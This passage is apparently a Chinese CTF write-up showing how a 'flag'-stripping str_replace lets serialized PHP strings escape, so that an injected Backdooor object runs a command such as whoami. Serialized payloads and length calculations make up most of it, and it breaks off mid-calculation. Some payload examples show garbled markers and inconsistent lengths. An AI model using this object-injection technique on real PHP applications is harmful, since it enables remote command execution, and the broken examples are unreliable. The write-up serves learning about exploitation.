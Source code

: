 其实就是 在 dsn 和 pdo 这里都可以触发 backdooor 的__toString()

如果我们直接传 new backdoor，发包过去，代码会把这个类处理成字符串，没有办法去触发后门

就像下面这个样子

```
O:5:"Mysql":7:{s:5:"debug";i:1;s:8:"database";s:6:"test01";s:8:"hostname";s:9:"127.0.0.1";s:4:"port";i:3306;s:7:"charset";s:4:"utf8";s:8:"username";s:4:"root";s:8:"password";s:48:"O:9:"Backdooor":1:{s:3:"cmd";s:10:"whoami    ";}";}
```

而我们最后要的效果是（注意引号哦）

```
O:5:"Mysql":7:{s:5:"debug";i:1;s:8:"database";s:5:"test1";s:8:"hostname";s:9:"127.0.0.1";s:4:"port";i:3306;s:7:"charset";s:4:"utf8";s:8:"username";s:4:"root";s:8:"password";O:9:"Backdooor":1:{s:3:"cmd";s:6:"whoami";}}
```



在源代码里面是序列化后在反序列化，中间有一步匹配替换，这里是当做字符串来处理的，我们就可以考虑字符逃逸

```php
$mysqlser = str_replace("flag", "", $mysqlser);
```

这里还有一点是，也是我踩雷的点

考虑吞掉字符的时候，不能后面的拼接的payload和你的flag字符防止一个点内，会出现多吞或者吞掉的字符对不上的情况，会error

例子

flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";s:8:"password";O:9:"Backdooor":1:{s:3:"cmd";s:6:"whoami";}}



## exp

所以我们就可以把 flag 字符放到其他的变量里面

这里的思路就是flag替换为空，前面的定义值的长度动不了，就直接往后吞 看加粗斜体

O:5:"Mysql":7:{s:5:"debug";i:1;s:8:"database";s:6:"test01";s:8:"hostname";s:9:"127.0.0.1";s:4:"port";i:3306;s:7:"charset";s:4:"utf8";s:8:"username";s:8:"flagflag***";s:8:"password";s:33:"***";s:8:"password";s:8:"password";}";}

下面就是替换为空的效果

O:5:"Mysql":7:{s:5:"debug";i:1;s:8:"database";s:6:"test01";s:8:"hostname";s:9:"127.0.0.1";s:4:"port";i:3306;s:7:"charset";s:4:"utf8";s:8:"username";s:8:"";s:8:"password";s:33:"";s:8:"password";s:8:"password";}";}

第一个password成了username变量的值了

那我们就可以计算一下长度

```
";s:8:"password";s:33:"
flagflagflagflagflagflag
```
